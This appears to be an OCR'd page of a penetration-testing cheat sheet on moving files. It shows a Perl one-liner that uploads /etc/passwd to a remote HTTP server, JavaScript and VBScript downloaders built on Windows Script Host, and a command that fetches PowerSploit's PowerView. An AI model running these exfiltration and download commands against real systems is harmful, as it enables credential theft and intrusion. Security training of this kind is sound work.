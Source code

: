 **Perl - Upload File:**
```bash
perl -e 'use LWP::UserAgent; use HTTP::Request::Common qw(POST); my $ua = LWP::UserAgent->new; my $response = $ua->request(POST "http://192.168.49.128:8000/upload", Content_Type => "form-data", Content => [files => ["/etc/passwd"]]);'
```

## JavaScript (Windows)

JavaScript can be used on Windows systems through Windows Script Host (WSH).

**Create wget.js file:**
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

**Download a File Using JavaScript and cscript.exe:**
```cmd
cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

**Alternative JavaScript Method (using MSXML2):**
```javascript
var xhr = new ActiveXObject("MSXML2.XMLHTTP");
xhr.open("GET", WScript.Arguments(0), false);
xhr.send();
var stream = new ActiveXObject("ADODB.Stream");
stream.type = 1;
stream.open();
stream.write(xhr.responseBody);
stream.saveToFile(WScript.Arguments(1), 2);
stream.close();
```

## VBScript (Windows)

VBScript ("Microsoft Visual Basic Scripting Edition") is an Active Scripting language developed by Microsoft that is modeled on Visual Basic. VBScript has been installed by default in every desktop release of Microsoft Windows since Windows 98.

**Create wget.vbs file:**
```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```
